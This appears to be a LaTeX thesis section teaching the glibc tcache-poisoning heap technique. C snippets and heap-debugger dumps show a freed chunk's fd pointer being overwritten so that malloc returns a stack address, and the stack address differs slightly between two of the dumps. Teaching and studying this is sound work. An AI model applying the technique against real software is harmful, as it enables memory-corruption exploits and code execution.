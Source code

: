 \documentclass{masterthesis}
\newcommand*\libc{glibc}
\newcommand*\tch{tcache}
\begin{document}
\section{\tch{} poisoning}
\label{sect:tchpoison}
This attack is specially designed for \tch{} bins, as a result, the \tch{} attack won't work on the older version of libc which does not have \tch{}. The final goal is to force \tch{} to return a chunk in a controlled location for example the stack. consider the following code:

\begin{lstlisting}[language=c,frame=tlrb]
size_t stack_var;
intptr_t *a = malloc(128);
intptr_t *b = malloc(128);
free(a);
free(b);
\end{lstlisting}

\begin{lstlisting}[language=c,frame=tlrb]
Tcachebins[idx=7, size=0x90] count=2 Chunk(addr=0x555555559330, size=0x90, flags=PREV_INUSE) Chunk(addr=0x5555555592a0, size=0x90, flags=PREV_INUSE)
\end{lstlisting}

The controller location in this sample is a variable inside the stack. In the next step, we allocate and free two chunks. We should mention, in newer versions of \libc{}, this chunk adds to \tch{}.
In the second step we overwrite the \lstinline{fd} pointer of chunk \lstinline{b}:

\begin{lstlisting}[language=c,frame=tlrb]
b[0] = (intptr_t)&stack_var;
\end{lstlisting}

\begin{lstlisting}[frame=tlrb]
Tcachebins[idx=7, size=0x90] count=2 Chunk(addr=0x555555559330, size=0x90, flags=PREV_INUSE) Chunk(addr=0x7fffffffde68, size=0x7ffff7fc7fc8, flags=) Chunk(addr=0x555555555410, size=0x9066c3c9fffffcc0, flags=NON_MAIN_ARENA) [Corrupted chunk at 0x8d4c5741fa1e0ff3]
\end{lstlisting}

Now, as you can see in the final layout of \tch{}, the previous chunk is not valid anymore, it is a controller located in the stack:
\begin{lstlisting}[language=c,frame=tlrb]
[ 0x555555559330 -> 0x7fffffffdee8 ]
\end{lstlisting}
In the final step with one allocation, we can remove top chunk from the \tch{}, so, the next allocation return our controller location (the size must be the same):
\begin{lstlisting}[language=c,frame=tlrb]
malloc(128)
intptr_t *c = malloc(128);
\end{lstlisting}
\end{document}
